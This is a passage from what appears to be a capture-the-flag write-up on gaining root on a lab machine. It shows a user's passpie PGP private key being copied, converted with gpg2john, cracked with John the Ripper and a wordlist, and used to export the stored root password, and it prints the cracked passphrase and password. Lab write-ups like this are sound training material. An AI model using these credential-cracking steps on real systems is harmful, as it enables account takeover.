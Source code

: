 `user.txt` can be found at `/home/jnelson`

# 3. root.txt

## 3.1. passpie

a simple `ls -la` in `/home/jnelson` reveals a `.passpie` directory. from there we can find `/home/jnelson/.passpie/.keys`

copy the PGP private key to a file on your system

```
-----BEGIN PGP PRIVATE KEY BLOCK-----

lQUBBGK4V9YRDADENdPyGOxVM7hcLSHfXg+21dENGedjYV1gf9cZabjq6v440NA1
...

V9YCGwwACgkQOHd1w1dF0gOm5gD9GUQfB+Jx/Fb7TARELr4XFObYZq7mq/NUEC+P
o3KGdNgA/04lhPjdN3wrzjU3qmrLfo6KI+w2uXLaw+bIT1XZurDN
=7Uo6
-----END PGP PRIVATE KEY BLOCK-----
```

then we can use johntheripper again to crack this key

## 3.2. gpg2john

Using the command `gpg2john keys > pgphash`, where `keys` is the pgp private key, we can convert the key to a hash that johntheripper can crack.

for johntheripper to crack the pgphash we use the command `john pgphash --wordlist=/usr/share/wordlists/rockyou.txt` which reveals the passphrase to be `blink182`

back in the ssh terminal run the commands
```
touch pass
passpie export pass
Passphrase:blink182
cat pass
```
which will reveal the root password `p7qfAZt4_A1xo_0x`

simply use `su root` and enter the password for root!

`root.txt` can be found at `/root`
